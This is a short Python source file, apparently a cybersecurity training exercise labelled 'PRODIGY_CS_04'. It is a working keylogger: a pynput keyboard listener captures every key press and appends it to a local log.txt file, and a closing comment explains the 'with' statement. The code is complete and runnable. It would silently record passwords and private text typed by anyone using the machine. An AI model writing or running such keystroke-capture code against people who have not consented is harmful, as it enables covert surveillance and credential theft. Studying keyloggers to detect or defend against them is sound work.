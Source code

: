 # PRODIGY_CS_04
from pynput.keyboard import Listener


def write_to_file(key):
    letter = str(key)
    letter = letter.replace("'", "")

    if letter == 'Key.space':
        letter = ' '
    if letter == 'Key.shift_r':
        letter = ''
    if letter == "Key.ctrl_l":
        letter = ""
    if letter == "Key.enter":
        letter = "\n"

    with open("log.txt", 'a') as f:
        f.write(letter)

# Collecting events until stopped

with Listener(on_press=write_to_file) as l:
    l.join()


# 'with' will automatically close the listener. When we stop the program the memory allocated
# to this listener won't be released. 'with' makes sure whatever happens, when an error is there
# or the program stops the memory is released. It's just a good coding principle to follow
